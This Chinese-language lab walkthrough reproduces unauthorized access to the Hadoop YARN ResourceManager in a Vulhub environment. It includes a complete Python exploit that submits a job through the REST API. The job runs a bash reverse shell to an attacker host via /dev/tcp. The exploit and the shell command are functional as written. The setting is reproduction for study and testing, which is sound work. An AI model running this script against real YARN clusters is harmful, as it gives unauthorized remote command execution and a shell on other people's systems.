

# Hadoop YARN ResourceManager 未授权访问

## 漏洞描述

- 参考阅读： [http://archive.hack.lu/2016/Wavestone%20-%20Hack.lu%202016%20-%20Hadoop%20safari%20-%20Hunting%20for%20vulnerabilities%20-%20v1.0.pdf](http://archive.hack.lu/2016/Wavestone - Hack.lu 2016 - Hadoop safari - Hunting for vulnerabilities - v1.0.pdf)

## 环境搭建

Vulhub运行测试环境

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8088`即可看到Hadoop YARN ResourceManager WebUI页面。



## 漏洞复现

利用方法和原理中有一些不同。在没有 hadoop client 的情况下，直接通过 REST API (https://hadoop.apache.org/docs/r2.7.3/hadoop-yarn/hadoop-yarn-site/ResourceManagerRest.html) 也可以提交任务执行。

利用过程如下：

1. 在本地监听等待反弹 shell 连接
2. 调用 New Application API 创建 Application
3. 调用 Submit Application API 提交

参考 [exp 脚本](https://github.com/vulhub/vulhub/blob/master/hadoop/unauthorized-yarn/exploit.py)

```python
#!/usr/bin/env python

import requests

target = 'http://127.0.0.1:8088/'
lhost = '192.168.0.1' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

成功反弹shell：

